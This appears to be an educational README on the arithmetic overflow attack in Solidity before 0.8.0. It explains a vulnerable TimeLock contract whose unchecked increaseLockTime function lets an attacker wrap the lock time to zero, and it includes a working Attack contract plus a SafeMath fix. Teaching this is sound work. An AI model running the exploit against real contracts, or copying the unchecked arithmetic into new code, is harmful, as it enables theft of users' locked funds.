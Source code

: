 # Arithmetic Overflow / Underflow Attack in Solidity

---

## 1. What is Arithmetic Overflow / Underflow in Solidity?

* In Solidity versions **<0.8.0**, arithmetic operations on `uint` (unsigned integers) **do not revert** when they exceed their maximum or minimum values.
* Instead, they **wrap around**:

  * **Overflow**: if result > `2^256 - 1`, it wraps back to `0`.

    ```solidity
    uint8 x = 255;     
    x = x + 1; // x becomes 0
    ```
  * **Underflow**: if result < `0`, it wraps around to the maximum value.

    ```solidity
    uint8 y = 0; 
    y = y - 1; // y becomes 255
    ```

This behavior can be exploited if contracts rely on arithmetic for security conditions.

---

## 2. Understanding the Vulnerable Contract (`TimeLock`)

The **TimeLock** contract is meant to:

* Allow deposits.
* Force users to wait at least **1 week** before withdrawing.
* Let users extend their lock time.

### Functions:

* `deposit()`:

  * Stores deposited Ether in `balances[msg.sender]`.
  * Sets `lockTime[msg.sender] = block.timestamp + 1 weeks`.

* `increaseLockTime(uint256 _secondsToIncrease)`:

  * Increases the lock time.
  * **Vulnerability**: If `lockTime` overflows, it can wrap to a very small value or even `0`.

* `withdraw()`:

  * Requires:

    * The user has funds.
    * `block.timestamp > lockTime[msg.sender]`.
  * Transfers funds.

---

## 3. The Attack

The `Attack` contract exploits the overflow.

### Attack Strategy:

1. Deposit Ether (so lockTime is set to `now + 1 week`).
2. Calculate how much to **increase** lock time so it overflows back to `0`:

   ```solidity
   x = type(uint256).max + 1 - lockTime[address(this)]
   ```

   * Here `type(uint256).max = 2^256 - 1`.
   * Adding this value causes:

     ```
     lockTime + x = 2^256 = 0 (wrapped around)
     ```
3. After overflow, `lockTime[address(this)]` becomes `0`.
4. Since `block.timestamp > 0`, withdrawal succeeds immediately.

---

## 4. Walkthrough of the Given Code

### TimeLock

```solidity
function deposit() external payable {
    balances[msg.sender] += msg.value; // Track user funds
    lockTime[msg.sender] = block.timestamp + 1 weeks; // Enforce 1 week wait
}
```

```solidity
function increaseLockTime(uint256 _secondsToIncrease) public {
    lockTime[msg.sender] += _secondsToIncrease; // Vulnerable: no overflow check
}
```

```solidity
function withdraw() public {
    require(balances[msg.sender] > 0, "Insufficient funds");
    require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

    uint256 amount = balances[msg.sender];
    balances[msg.sender] = 0;

    (bool sent,) = msg.sender.call{value: amount}("");
    require(sent, "Failed to send Ether");
}
```

### Attack

```solidity
function attack() public payable {
    timeLock.deposit{value: msg.value}();

    // Craft malicious lock time increment
    timeLock.increaseLockTime(
        type(uint256).max + 1 - timeLock.lockTime(address(this))
    );

    // Withdraw immediately (lockTime = 0 after overflow)
    timeLock.withdraw();
}
```

---

## 5. Why This Works Only in Solidity <0.8.0

* In Solidity `0.8.0` and above, arithmetic overflow/underflow **throws an error** automatically.
* That’s why in newer contracts, this attack won’t work unless the developer explicitly disables checks with `unchecked { ... }`.

---

## 6. Fixing the Vulnerability

To fix it (for Solidity <0.8.0):

* Use **SafeMath** library (from OpenZeppelin) to handle overflows safely.

Example:

```solidity
using SafeMath for uint256;

function increaseLockTime(uint256 _secondsToIncrease) public {
    lockTime[msg.sender] = lockTime[msg.sender].add(_secondsToIncrease);
}
```

In Solidity ≥0.8.0:

* No extra library is needed since overflow checks are built-in.

---

✅ In short:
This exploit relies on **overflowing the `lockTime`** so that the waiting period is bypassed, allowing instant withdrawal.
